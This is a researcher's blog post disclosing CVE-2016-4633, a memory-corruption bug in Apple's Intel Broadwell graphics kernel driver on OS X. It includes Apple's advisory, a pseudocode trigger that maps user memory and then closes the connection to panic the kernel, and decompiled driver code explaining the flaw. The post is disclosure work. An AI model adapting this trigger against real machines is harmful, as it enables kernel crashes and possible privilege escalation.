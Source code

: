 ```yaml
---
layout: post
title:  "[CVE-2016-4633] Another OS X Bug in Apple Graphics"
date:   2016-07-21 12:00:00 +0800
categories: security apple cve
---
```


If you follow our recent work, you may have see that we did several talks about Apple Graphics, like at [Cansecwest 16][cansecwest], [RECON 16][recon], and we will also talk at [Black Hat USA 2016][blackhat].

The Apple Graphics stack was also used at Pwn2Own 2016 by our team to compromise OS X twice, by escaping the sandbox in 2 different pwns thanks to 2 different bugs both related to Graphics. You can check out more details at [BH US 16][blackhat].

This blog post talks about another disclosed bug originated from that auditing/fuzzing effort.

This bug affects all recent models of OS X machines running a Broadwell CPU, to check the bug you need to reverse the `AppleIntelBDWGraphics` kext on 10.11.5 or older.

This bug, like all our other Graphics related bugs is reachable by the Safari or Chrome Sandbox.

## [Advisory][advisory]

{% highlight text %}
Intel Graphics Driver
Available for: OS X El Capitan v10.11 and later
Impact: A malicious application may be able to execute arbitrary code with kernel privileges
Description: Multiple memory corruption issues were addressed through improved memory handling.
CVE-2016-4633 : Marco Grassi (@marcograss) of KeenLab (@keen_lab), Tencent
{% endhighlight %}

## Pseudocode Trigger PoC:

Sorry if the PoC is just pseudocode but I lost the PoC file and I'm too lazy to panic my machine now to test. So going by memory for this basic writeup I hope it will do just fine.

{% highlight c %}

void *addr = vmAllocateAPageOfMemorySomewhere();
mach_port_t my_port = getAPortForIGCLContextOrGLContext();

uint64_t outputScalar[16];
uint32_t outputScalarCnt = 0;

char inputStruct[4096];
size_t inputStructCnt = 16;

uint64_t outputStruct[4096];
size_t outputStructCnt = 16;

uint64_t inputScalar[16];
uint64_t inputScalarCnt = 0;

*(unsigned long *)(inputStruct) = addr;



*(unsigned long *)(inputStruct + 8 ) = 0x1000;
*(unsigned long *)(inputStruct) = addr;
outputScalarCnt = 0;
inputStructCnt = 16;
outputStructCnt = 16;
inputScalarCnt = 0;
mach_err = IOConnectCallMethod(
                               my_port,
                               0x100, // map_user_memory
                               inputScalar,
                               inputScalarCnt,
                               inputStruct,
                               inputStructCnt,
                               outputScalar,
                               &outputScalarCnt,
                               outputStruct,
                               &outputStructCnt);

IOServiceClose(my_port); // the kernel will panic after this

{% endhighlight %}

## What's going on

So what's going on here?

This is from `IGAccelCLContext::contextStop()` which will be called when we do `IOServiceClose()`.

{% highlight c %}
IGHashTable<unsigned long long,IGAccelMemoryMap *,IGHashTraits<unsigned long long>,IGIOMallocAllocatorPolicy>::Iterator::next(&v9);
  v3 = **((_QWORD **)v1 + 510);
  while ( v9 != v3 || v10 )
  {
    v8 = *v10;
    v4 = (_QWORD *)IGHashTable<unsigned long long,IGAccelMemoryMap *,IGHashTraits<unsigned long long>,IGIOMallocAllocatorPolicy>::get(
                     (char *)v1 + 4072,
                     &v8);
    v5 = (_QWORD **)*v4;
    (*(void (__fastcall **)(_QWORD))(*(_QWORD *)*v4 + 320LL))(*v4);
    (*(void (**)(void))(*v5[3] + 40LL))();
    ((void (__fastcall *)(_QWORD **))(*v5)[5])(v5);
    IGHashTable<unsigned long long,IGAccelMemoryMap *,IGHashTraits<unsigned long long>,IGIOMallocAllocatorPolicy>::remove(
      (char *)v1 + 4072,
      &v8);
    IGHashTable<unsigned long long,IGAccelMemoryMap *,IGHashTraits<unsigned long long>,IGIOMallocAllocatorPolicy>::Iterator::next(&v9);
  }
{% endhighlight %}

You may not notice the subtle problem here (in fact this issue was triggered while coding another PoC, not by code auditing!).

Basically the developers of this driver never accounted for this method to be called when there is still 1 or more elements of mapped memory (caused by us with `map_user_memory` IOKitCall). They only tested with an even number of `map_user_memory/unmap_user_memory` calls, so if we enter this while loop with still 1 or more memory mappings in this UserClient, this while loop by calling get,remove, next will cause memory corruption.

[cansecwest]: https://speakerdeck.com/marcograss/dont-trust-your-eye-apple-graphics-is-compromised
[recon]: https://speakerdeck.com/flankerhqd/shooting-the-osx-el-capitan-kernel-like-a-sniper
[blackhat]: https://www.blackhat.com/us-16/briefings.html#subverting-apple-graphics-practical-approaches-to-remotely-gaining-root
[advisory]: https://support.apple.com/en-hk/HT206903
